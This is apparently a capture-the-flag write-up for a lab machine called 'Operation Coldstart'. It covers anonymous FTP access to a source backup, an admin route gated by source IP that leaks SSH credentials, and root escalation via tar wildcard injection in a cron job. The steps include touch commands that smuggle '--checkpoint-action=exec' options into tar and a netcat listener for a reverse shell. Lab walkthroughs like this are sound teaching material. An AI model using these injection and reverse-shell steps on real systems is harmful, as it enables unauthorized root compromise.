

# Operation Coldstart

## Introduction



## Open Port Scan

```bash
└─$ rustscan -a operationcoldstart.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:21
Open xx.xx.xxx.xxx:80
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to yyy.yyy.yyy.yy
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 May 09 23:14 pub
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:a8:26:c5:68:3b:12:49:95:9d:96:8a:25:a5:f0:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCodO4iJAjUhqS5Arh33dyJprD8wWXAFZmzKGNnNgBaTCTj2CxVgz8gWx4ek0Q6XYXt8g26dc+qhH5ZUX8iSozI=
|   256 cb:77:13:77:18:12:97:15:14:d0:17:00:5e:2a:25:19 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIu8ryCkr2qZdL6+1Oeymtl58tmIy+rSIuldw0GZDJqs
80/tcp open  http    syn-ack ttl 62 Gunicorn
|_http-server-header: gunicorn
|_http-title: URL Preview - Volt Labs
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose
Running (JUST GUESSING): Linux 4.X|5.X|6.X (96%), Google Android 10.X|11.X|12.X (96%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Android 10 - 12 (Linux 4.14 - 4.19) (96%), Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (96%), Linux 4.15 (95%), Linux 5.14 - 6.8 (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are 3 opening ports:

- Port 21: FTP (vsFTPd 3.0.5)
- Port 22: SSH (OpenSSH 9.6p1 Ubuntu 3ubuntu13.16)
- Port 80: HTTP (Gunicorn)

## Web Content Enumeration

When we go to the main page, we will see a URL Preview Service.


However it failed to retrieve anything (including the place holder `https://example.com/`)


When we enter a url, it is passed with the `?url` parameter, and then render in the `/preview` page


I spent some time here, but still no result.

## FTP

After a while, I remember there is an FTP port, so i try to login as `anonymous`, and it works

```bash
ftp operationcoldstart.thm
Connected to operationcoldstart.thm.
220 (vsFTPd 3.0.5)
Name (operationcoldstart.thm:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

There is a `pub` directory, and inside it is a backup GZip file 

```bash
ftp> ls -la
229 Entering Extended Passive Mode (|||40079|)
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 May 09 23:14 .
drwxr-xr-x    3 ftp      ftp          4096 May 09 23:14 ..
drwxr-xr-x    2 ftp      ftp          4096 May 09 23:14 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||40059|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 09 23:14 .
drwxr-xr-x    3 ftp      ftp          4096 May 09 23:14 ..
-rw-r--r--    1 ftp      ftp          2446 May 09 23:14 backup.tar.gz
226 Directory send OK.
ftp> get backup.tar.gz
local: backup.tar.gz remote: backup.tar.gz
229 Entering Extended Passive Mode (|||40007|)
150 Opening BINARY mode data connection for backup.tar.gz (2446 bytes).
100% |***********************************************************************************************************************************************************************************************|  2446       32.39 MiB/s    00:00 ETA
226 Transfer complete.
2446 bytes received in 00:00 (21.27 KiB/s)
```

After we get the file, unzip it, and we can begin our analysis.

## Source Code Analysis

The backup contains three files

```bash
└─$ tree                                                                                                                                                                                                                                    
.
├── app.py
├── README.md
└── requirements.txt

1 directory, 3 files
```

I first read the `README.md`, it reveals there is a source-IP check

```bash
# Volt Labs URL Preview

Internal staging tool. Run with `gunicorn -b 0.0.0.0:80 app:app`.

Admin routes are gated by source-IP check (localhost only).
```

Then I read the `app.py`, and found there is an `/admin` endpoint

```bash
@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```

The above code does the following, it will check if the `remote_addr` starts with the `127.`, which represent a private IP address.

It also reveals there are two pages, `index` and `notes`.

## Viewing the Admin Contents

As expected, if we access to `admin`, we will see it is forbidden.


And then I realized there is actually a allowed host in `app.py`

```bash
ALLOWED_HOSTS = {"kestrel.thm"}
```

Using it, we can access to the `index` page


Thus, we can go to the `notes` page, and we get the SSH credentials `webdev:V0ltLabs#summer`


## SSH

After we log in SSH, we can get the user flag

```bash
webdev@coldstart:~$ pwd
/home/webdev
webdev@coldstart:~$ ls
user.txt
webdev@coldstart:~$ cat user.txt
THM{96dc7bd50d2fb98fcece01560788b5ab}
```

User Flag: `THM{96dc7bd50d2fb98fcece01560788b5ab}`

## Privilege Escalation

Now it’s time to escalate our privileges.

We have no Sudo privileges, and the kernel version seems to be secure

```bash
webdev@coldstart:~$ cd ..
webdev@coldstart:/home$ ls
ubuntu  webdev
webdev@coldstart:/home$ sudo -l
[sudo] password for webdev: 
Sorry, user webdev may not run sudo on coldstart.
webdev@coldstart:/home$ uname -a
Linux coldstart 6.17.0-1015-aws #15~24.04.1-Ubuntu SMP Thu May  7 17:00:14 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux

```

I then check the `/opt` directory, and saw there is an empty `backups` directory

```bash
webdev@coldstart:~$ cd /opt
webdev@coldstart:/opt$ ls
backups  voltlabs-preview
```

With that, I believe there is a Cron task to create a backup periodically, and I found it.

```bash
webdev@coldstart:~$ find /etc/cron.d -type f 2> /dev/null
/etc/cron.d/voltlabs-backup
/etc/cron.d/sysstat
/etc/cron.d/.placeholder
/etc/cron.d/e2scrub_all
```

It’s the wildcard exploit again

```bash
webdev@coldstart:~$ cat /etc/cron.d/voltlabs-backup 
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
```

Because of the wildcard in the end, we can create malicious (flag-like) files and it will execute them. 

Refer to [gtfobins]([https://gtfobins.org/gtfobins/tar/](https://gtfobins.org/gtfobins/tar/)) for more.

with that, we can create 3 files, they have the following uses:

- `--checkpoint=1`: Set the checkpoint to true
- `"--checkpoint-action=exec=sh exploit.sh"`: Define the checkpoint action, which we will execute the exploit.sh
- `exploit.sh`: [Reverse Shell]([https://www.revshells.com/](https://www.revshells.com/))

```bash
webdev@coldstart:/opt/backups$ touch -- "--checkpoint=1"
webdev@coldstart:/opt/backups$ touch -- "--checkpoint-action=exec=sh exploit.sh"
webdev@coldstart:/opt/backups$ vi exploit.sh
webdev@coldstart:/opt/backups$ 
```

We can then set up the nc listener, and read the root flag

```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [yyy.yyy.yyy.yy] from (UNKNOWN) [xx.xx.xxx.xxx] 58534
sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
flag.txt
snap
# cat flag.txt
THM{e6ee84a483d67ade06936fcfd1433e8a}
```

Root Flag: `THM{e6ee84a483d67ade06936fcfd1433e8a}`
